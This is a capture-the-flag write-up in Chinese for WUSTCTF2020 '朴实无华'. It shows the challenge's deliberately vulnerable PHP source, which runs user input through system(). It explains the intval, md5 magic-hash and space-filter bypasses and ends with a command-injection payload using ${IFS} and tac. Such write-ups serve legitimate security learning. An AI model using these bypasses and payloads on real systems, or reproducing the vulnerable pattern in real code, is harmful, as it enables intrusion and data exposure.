 # \[WUSTCTF2020]朴实无华

## \[WUSTCTF2020]朴实无华

## 考点

* robots.txt泄露
* intval绕过
* PHP使用0e开头的数字md5值仍以0e开头绕过md5限制
* 命令执行`${IFS}`或者`$IFS$9`绕过空格

## wp

robots.txt发现存在/fAke\_f1agggg.php，访问在返回头给了提示，fl4g.php

![](<../../.gitbook/assets/image (26) (1) (1).png>)

访问后给了代码

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);

//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?> 
```

level 1要绕过intval函数，该函数用于获取变量的整数值，例如10e5就会获取10，4.5获取4，1e10就会获取1410065408，使用<mark style="color:orange;">`num=3e10`</mark>绕过

level 2要绕md5，利用PHP弱类型绕过，使用`0e215962017`绕过，`0e215962017`的md5值为`0e291242476940776845150308577824`

level 3要绕命令执行，过滤空格和cat，使用`$IFS$9`或者`${IFS}` 代替空格，`cat`可以换成`more`，`tac`

payload：`?num=3e10&md5=0e215962017&get_flag=tac${IFS}*`
